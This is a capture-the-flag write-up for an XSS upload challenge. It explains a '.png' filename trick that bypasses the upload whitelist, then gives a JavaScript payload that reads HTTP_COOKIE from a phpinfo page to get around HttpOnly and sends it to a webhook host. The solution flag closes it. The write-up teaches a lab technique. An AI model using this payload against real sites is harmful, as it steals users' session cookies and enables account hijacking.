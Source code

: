 # XSS 1
`-`

## About the Challenge
We are given a 2 websites (website for testing and bot to get the flag)

## How to Solve?
In the website there is a feature to upload an image file like this

![preview](images/preview.png)

And after we upload a file for example `image.png`, we can access the file by accessing `/uploads/RANDOMCHARACTER/image.png` endpoint. In this chall, we only can upload a file that using `.png` extension. To bypass this whitelist, we need to upload a file named `.png` So the server will read the file as hidden directories.

At first we can get the flag easily and then the admin revise the chall and added more difficulty by adding `HttpOnly` flag on the bot so we need to bypass the `HttpOnly` flag. Luckily there is `phpinfo` file and we can use it to bypass the `HttpOnly` flag. So the payload will look like this

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
var url = '[https://REDACTED/info.php](http://172.174.108.207:90/xss1/info.php)';
req.withCredentials = true;
req.open('GET', url, false);
req.send();

function reqListener() {
var req2 = new XMLHttpRequest();
const sess = this.responseText.substring(this.responseText.indexOf('HTTP_COOKIE') + 1 );
req2.open('GET', 'https://webhook/?data=' + btoa(sess), false);
req2.send()
};
```

And then upload the payload and send the file to the bot and we can get the flag

```
0xL4ugh{Fre333e_Plaestine!!_My_bRUH}
```